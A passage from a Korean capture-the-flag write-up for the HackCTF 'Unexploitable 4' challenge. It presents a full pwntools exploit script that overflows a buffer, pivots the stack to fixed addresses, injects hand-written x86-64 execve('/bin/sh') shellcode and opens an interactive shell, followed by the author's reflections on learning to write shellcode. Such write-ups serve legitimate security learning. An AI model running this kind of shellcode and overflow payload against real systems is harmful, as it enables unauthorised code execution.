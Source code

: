 ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%204/Untitled%2010.png)

RSP와 RIP가 충돌이 나지 않는 것을 확인할 수 있다.

<br><br><br>

### 3. 풀이

---

최종익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
context.arch = 'amd64'
#p=remote("ctf.j0n9hyun.xyz",3039)
p=process("./Unexploitable_4")
e=ELF("./Unexploitable_4")
gdb.attach(p)

shell="xor rax,rax; xor rdx,rdx; xor rsi,rsi; mov rbx,0x1068732f6e69622f;"
shell +="push rbx; mov [rsp+7],al; mov rdi,rsp;mov al,0x3b;syscall;"
s=asm(shell)
s=s.ljust(0x20)

payload = "A"*0x10+p64(0x601160)+p64(0x4006db)
pause()
p.sendline(payload)
log.info(len(asm(shell)))
s=asm(shell)
s=s.ljust(0x20)
payload2 = "A"*0x10+p64(0x601188)+p64(0x4006db)+s[:8]
pause()
p.sendline(payload2)

payload3 = s[8:]+p64(0x601170)
pause()
p.sendline(payload3)

p.interactive()
```

<br><br><br>

### 4. 몰랐던 개념

---

- 쉘코드를 가져다 쓰기만했지 직접 만들어보지는 않았다. 하지만 윈도우 환경의 쉘코드는 만들어봤기 때문에 리눅스는 금방 익혔다.
- 이렇게 직접 쉘코드를 짜서 문제를 해결해야하는 문제들이 있다고 한다. 이번 기회를 통해 새롭게 알게 되어서 다행이다.

<br><br><br>

### 5. 다른 풀이

---